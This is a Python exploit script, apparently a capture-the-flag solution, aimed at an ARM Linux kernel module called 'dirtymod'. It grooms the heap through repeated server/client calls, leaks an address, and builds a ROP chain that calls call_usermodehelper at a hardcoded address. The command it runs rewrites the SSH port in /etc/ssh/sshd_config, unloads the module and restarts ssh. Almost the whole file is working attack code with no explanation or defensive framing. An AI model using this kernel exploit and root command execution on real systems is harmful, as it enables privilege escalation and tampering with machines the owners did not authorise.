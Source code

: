 ```python
    """
    0x80136dec <module_attr_show+32>          pop    {lr}
    0x80136df0 <module_attr_show+36>          bx     r3
    """
    call_usermodehelper = 0x8012F990
    payload = str_change(payload, p32(call_usermodehelper), stack + 4 * 18)
    """
    0x80427e38 <call_with_stack+32>:	ldr	sp, [sp, #4]
    0x80427e3c <call_with_stack+36>:	bx	lr
    """
    return payload


clean()
server(b"\x20", 0x1001, b"B" * 0x1001)

clean()
server(b"\x10", 0x1000, b"A" * 0x1000)
server(b"\x10", 0x1000, b"A" * 0x1000)  # can_merge = 1
server(b"\x30", 0x1000, b"C" * 0x1000)

client()
client()


for _ in range(12):
    server(b"\x20", 0x100, b"B" * 0x100)
server(b"\x10", 0x1000, b"A" * 0x1000)
server(b"\x10", 0x1000, b"A" * 0x1000)
server(b"\x10", 0x1000, b"A" * 0x1000)
sh = client()
recvu(b"pure_data success\n")
large = uu32(recv(4))
success(large)
sh.close()

clean()
magic = 0x8051EF90
server(
    b"\x20",
    0x1000 - 1,
    p8(large >> 8 & 0xFF)
    + p8(large >> 16 & 0xFF)
    + p8(large >> 24 & 0xFF)
    + p32(magic)
    + p32(0)
    + b"\x01" * (0x1000 - 1 - 3 - 4 * 2),
)
server(b"\x10", 0x1000, b"A" * 0x1000)
server(b"\x10", 0x1000, b"A" * 0x1000)
cmd = b"sed -i 's/Port 22/Port 2326/g' /etc/ssh/sshd_config ;rmmod dirtymod;service ssh restart;sleep 2;"
payload = rop(large, cmd)
server(b"\x10", 0x2000, payload)
client()

```
